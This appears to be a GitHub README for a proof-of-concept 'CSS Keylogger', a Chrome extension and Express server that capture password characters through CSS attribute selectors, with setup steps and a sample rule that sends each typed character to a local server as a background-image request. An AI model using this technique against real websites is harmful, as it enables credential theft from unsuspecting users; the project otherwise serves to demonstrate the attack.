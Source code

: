 # CSS Keylogger

Chrome extension and Express server that exploits keylogging abilities of CSS.

## To use

### Setup Chrome extension

1. Download repository `git clone https://github.com/maxchehab/CSS-Keylogging`
2. Visit `chrome://extensions` in your browser (or open up the Chrome menu by clicking the icon to the far right of the Omnibox: The menu's icon is three horizontal bars. and select Extensions under the More Tools menu to get to the same place).
3. Ensure that the Developer mode checkbox in the top right-hand corner is checked.
4. Click `Load unpacked extension…` to pop up a file-selection dialog.
5. Select the `css-keylogger-extension` in the directory which you downloaded this repository.

### Setup Express server

1. `yarn`
2. `yarn start`

### Haxking l33t passw0rds

1. Open a website that uses a controlled component framework such as React. [https://instagram.com](https://www.instagram.com/).
2. Press the extension `C` on the top right of any webpage.
3. Type your password.
4. Your password should be captured by the express server.

## How it works

This attack is really simple. Utilizing CSS attribute selectors, one can request resources from an external server under the premise of loading a `background-image`.

For example, the following css will select all input's with a `type` that equals `password` and a `value` that ends with `a`.
It will then try to load an image from `http://localhost:3000/a`.

```css
input[type="password"][value$="a"] {
  background-image: url("http://localhost:3000/a");
}
```

Using a simple [script](https://github.com/maxchehab/CSS-Keylogging/blob/master/build.go) one can create a [css file](https://github.com/maxchehab/CSS-Keylogging/blob/master/css-keylogger-extension/keylogger.css) that will send a custom request for every ASCII character.
